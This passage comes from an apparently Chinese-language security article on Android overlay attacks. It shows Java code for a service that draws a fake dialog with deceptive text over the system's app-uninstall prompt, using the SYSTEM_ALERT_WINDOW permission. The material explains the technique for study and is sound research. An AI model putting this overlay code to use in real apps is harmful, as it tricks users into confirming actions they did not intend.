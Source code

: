 将请求卸载包名 android，并展现如下对话框  

![](https://mmbiz.qpic.cn/mmbiz_png/kVCSSCFiaG8IdhDrGZlUxhlJbcWA5WGyLE46IegpvCXslCtCHa5nUFDrqdiazKMOPKhTwnibZenXMvwgianiczDv0mg/640?wx_fmt=png)

图 2 请求卸载的正常对话框  

若恶意 APP 已被授予 SYSTEM_ALERT_WINDOW 权限，那么可以在请求卸载的同时，展现一个虚假的对话框覆盖在正常的对话框之上。这个覆盖功能可以实现为一个服务，如 FloatingButtonService，包括以下内容：

（1）在 FloatingButtonService 的构造函数中设置虚假对话框的布局参数

```
LayoutParams
 windowManager = (WindowManager) getSystemService(WINDOW_SERVICE);
        layoutParams = new WindowManager.LayoutParams();
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            layoutParams.type = WindowManager.LayoutParams.TYPE_APPLICATION_OVERLAY;
        } else {
            layoutParams.type = WindowManager.LayoutParams.TYPE_PHONE;
        }
        layoutParams.format = PixelFormat.TRANSLUCENT;
        layoutParams.gravity = Gravity.LEFT | Gravity.TOP;
        layoutParams.flags = WindowManager.LayoutParams.FLAG_NOT_TOUCH_MODAL | 
          WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE | WindowManager.LayoutParams.FLAG_WATCH_OUTSIDE_TOUCH;
        layoutParams.width = 920;
        layoutParams.height = 300;
        layoutParams.x = 80;
        layoutParams.y = 800;
```

注意 FLAG_WATCH_OUTSIDE_TOUCH 参数，此参数可用于监听用户在对话框之外的点击，可用于虚假对话框的退出时机。

（2）使用按钮来作为对话框显示，服务启动时显示对话框，服务停止时销毁对话框

```
@Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        showFloatingWindow();
        return super.onStartCommand(intent, flags, startId);
    }

    @Override
    public void onDestroy() {
        if (windowManager != null && button != null) {
            windowManager.removeView(button);
        }
        super.onDestroy();
    }

    private void showFloatingWindow() {
        if (Settings.canDrawOverlays(this)) {
            button = new Button(getApplicationContext());
            button.setText("Overlay UninstallerActivity's Text to Show Something Else. " +
                    "Your alarm will ring in 5 minutes"); // 欺骗内容
            button.setBackgroundColor(Color.WHITE);
            windowManager.addView(button, layoutParams);
            button.setOnTouchListener(new FloatingOnTouchListener());
        }
    }
```
